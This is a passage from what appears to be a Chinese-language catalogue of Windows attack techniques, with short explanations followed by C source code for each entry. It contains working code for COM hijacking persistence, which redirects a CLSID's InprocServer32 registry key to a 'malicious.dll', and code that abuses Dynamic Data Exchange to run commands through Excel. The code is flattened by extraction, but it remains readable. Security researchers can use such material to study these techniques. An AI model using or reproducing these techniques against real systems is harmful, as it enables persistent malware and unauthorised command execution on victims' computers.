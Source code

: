         printf("Hook unset successfully.\n");    return 0;}

 **17\. COM Hijacking**

 ** **说明:
****COM(组件对象模型)劫持是一种持久性技术，攻击者通过操纵注册表项来重定向或拦截对合法COM对象的调用。这可用于在调用特定COM对象时执行恶意代码。

  * 

    
    
    com_hijack.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    // CLSID of a legitimate COM object (for demonstration purposes only)// You should replace this with a real CLSID#define TARGET_CLSID L"{12345678-1234-1234-1234-123456789012}"  
    // Path to the malicious DLL that will be invoked instead of the legitimate COM object#define MALICIOUS_DLL_PATH L"C:\\path\\to\\malicious.dll"  
    BOOL SetCOMHijack() {    HKEY hKey;    LONG lResult;    WCHAR szKeyPath[256];  
        // Construct the registry key path    wsprintf(szKeyPath, L"Software\\Classes\\CLSID\\%s\\InprocServer32", TARGET_CLSID);  
        // Open or create the registry key    lResult = RegCreateKeyEx(HKEY_CURRENT_USER, szKeyPath, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);    if (lResult != ERROR_SUCCESS) {        return FALSE;    }  
        // Set the default value to the path of the malicious DLL    lResult = RegSetValueEx(hKey, NULL, 0, REG_SZ, (const BYTE*)MALICIOUS_DLL_PATH, (wcslen(MALICIOUS_DLL_PATH) + 1) * sizeof(WCHAR));    RegCloseKey(hKey);  
        return (lResult == ERROR_SUCCESS);}  
    int main() {    if (SetCOMHijack()) {        printf("COM Hijacking set successfully.\n");    } else {        printf("Failed to set COM Hijacking.\n");    }    return 0;}

 **18\. 动态数据交换(Dynamic Data Exchange)**

 ** **说明:  ****动态数据交换(Dynamic Data
Exchange)是一种较旧的进程间通信系统，它允许两个运行的应用程序共享相同的数据。DDE可以被滥用来执行任意命令，过去它已被用作Microsoft
Office文档中的命令执行方法。

  * 

    
    
    dde_attack.exe svchost.exe

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <windows.h>#include <stdio.h>  
    int main() {    // DDE requires a window to be created for message handling    HWND hwnd = CreateWindowEx(0, "STATIC", "DDE Command Execution", 0, 0, 0, 0, 0, HWND_MESSAGE, NULL, NULL, NULL);    if (!hwnd) {        printf("Failed to create window for DDE.\n");        return 1;    }  
        // Initialize DDE    UINT uDDEInit = DdeInitialize(NULL, NULL, APPCLASS_STANDARD | APPCMD_CLIENTONLY, 0);    if (uDDEInit != DMLERR_NO_ERROR) {        printf("Failed to initialize DDE.\n");        return 1;    }  
        // Connect to a DDE service (e.g., Excel)    HSZ hszService = DdeCreateStringHandle(uDDEInit, "Excel", CP_WINANSI);    HSZ hszTopic = DdeCreateStringHandle(uDDEInit, "System", CP_WINANSI);    HCONV hConv = DdeConnect(uDDEInit, hszService, hszTopic, NULL);  
        if (!hConv) {        printf("Failed to connect to DDE service.\n");        DdeUninitialize(uDDEInit);        return 1;    }  
        // Execute a command via DDE (for demonstration purposes, let's open Calculator)    HSZ hszCommand = DdeCreateStringHandle(uDDEInit, "[EXEC(\"calc.exe\")]", CP_WINANSI);    if (!DdeClientTransaction(NULL, 0, hConv, hszCommand, CF_TEXT, XTYP_EXECUTE, TIMEOUT_ASYNC, NULL)) {        printf("Failed to execute DDE command.\n");    }  
        // Cleanup    DdeFreeStringHandle(uDDEInit, hszService);    DdeFreeStringHandle(uDDEInit, hszTopic);    DdeFreeStringHandle(uDDEInit, hszCommand);    DdeDisconnect(hConv);    DdeUninitialize(uDDEInit);    DestroyWindow(hwnd);  
        return 0;}
